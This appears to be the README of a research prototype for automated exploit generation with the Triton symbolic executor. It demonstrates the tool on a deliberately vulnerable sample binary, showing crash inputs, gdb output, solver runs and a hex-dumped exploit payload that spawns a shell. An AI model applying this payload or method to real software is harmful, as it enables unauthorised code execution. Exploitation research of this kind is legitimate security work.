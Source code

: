 Wasabi AEG
====

This is yet another implementation (demonstration) of [AEG (Automated Exploit Generation)](http://security.ece.cmu.edu/aeg/) using Symbolic Executor Triton.

This is a Prototype.


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton) and [Pin tracer](https://triton.quarkslab.com/documentation/doxygen/index.html#libpintool_install_sec)
    * **NOTE**: My Triton build number is 1380 (v 0.6). Triton's API is volatile. So you may need some paches for solver script in the future.
* [lief](https://lief.quarkslab.com/)
* Python2


Build
----
```
cd vuln-samples
make
cd -
```


Demo
-----
Demo binaries are located in `vuln-samples`.

### notes
We obtained crash input from afl and feed it into `notes`.
We found that crashes at address `0x7ffff7a8c231`.

```
K_atc% xxd vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad adad  ..f........"....
00000040: adad ad9d adad adad 0d51 0a73 0a75 0a33  .........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a63  .nle.(..o.!! ..c
00000060: 6e6e 6e6e 6e81 e16e 6e6e 6e6e 7e6e 6e6f  nnnnn..nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q
```

```
gdb-peda$ r < result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32

[----------------------------------registers-----------------------------------]
... snipped ...
RBP: 0xadad9dadadadadad 
... snipped ...
[-------------------------------------code-------------------------------------]
... snipped ...
=> 0x7ffff7a8c231 <__GI__IO_getline_info+193>:  mov    BYTE PTR [rbp+0x0],al
... snipped ...
Stopped reason: SIGBUS
0x00007ffff7a8c231 in __GI__IO_getline_info () from /usr/lib/libc.so.6
```

We can generate exploit payload int the following manner.

```
K_atc% export CRASHED_AT=0x7ffff7a8c231

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
... snipped ...
[TT] Solving Memory Access constriant...
[TT] Model for Memory Access: {64L: SymVar_64 = 0x60, 65L: SymVar_65 = 0x0, 66L: SymVar_66 = 0x0, 67L: SymVar_67 = 0x0, 68L: SymVar_68 = 0x0, 69L: SymVar_69 = 0x0, 95L: SymVar_95 = 0x10, 62L: SymVar_62 = 0xD8, 63L: SymVar_63 = 0x30}
~~~~~~~~
Found exploitable crash:  'n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\nu\x009:n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\xf5\xf5\xf5\xf5\xf5\n\xf8\x00n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xd80`\x00\x00\x00\x00\x00\xf5\xf5\xf5\xf5\n\xf5\nu\x001:\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\x10'
Crash inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10'
[TT] Reading remaining stdin...
    read stdin = ''nnnnn\x81\xe1nnnnn~nnon!\xff\x00s\nq''
[TT] crash input is saved as 'crash_inputs'
[TT] Go on to phase 2
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  106.72s user 5.79s system 99% cpu 1:53.21 total

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
... snipped ...
~~~~~~~~
[TT] Automated Exploit Generation Done. Saving payload as 'exploit-payload'
[TT] Model for Memory Access: {96L: SymVar_96 = 0x12, 97L: SymVar_97 = 0x40, 98L: SymVar_98 = 0x0, 99L: SymVar_99 = 0x0, 100L: SymVar_100 = 0x0, 101L: SymVar_101 = 0x0, 102L: SymVar_102 = 0x0, 95L: SymVar_95 = 0x10}
Crash Inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10\x12@\x00\x00\x00\x00\x00nnnnn~nnon!\xff\x00s\nq'
To test payload: `(cat exploit-payload -) | ./vuln-samples/notes`
[TT] End
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  69.77s user 6.09s system 99% cpu 1:16.34 total
```

Finally, we got payload (to spawn shell) work fine!

```
K_atc% xxd exploit-payload 
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad d830  ..f........"...0
00000040: 6000 0000 0000 adad 0d51 0a73 0a75 0a33  `........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a10  .nle.(..o.!! ...
00000060: 1240 0000 0000 006e 6e6e 6e6e 7e6e 6e6f  .@.....nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q

K_atc% (cat exploit-payload -) | ./vuln-samples/notes
Exploit Me!!

---- [menu] ----

==== [note #3] ====
title: content: Congratz![Enter]
uname -a
Linux K_atc 4.17.2-1-ARCH #1 SMP PREEMPT Sat Jun 16 11:08:59 UTC 2018 x86_64 GNU/Linux
whoami
katc
```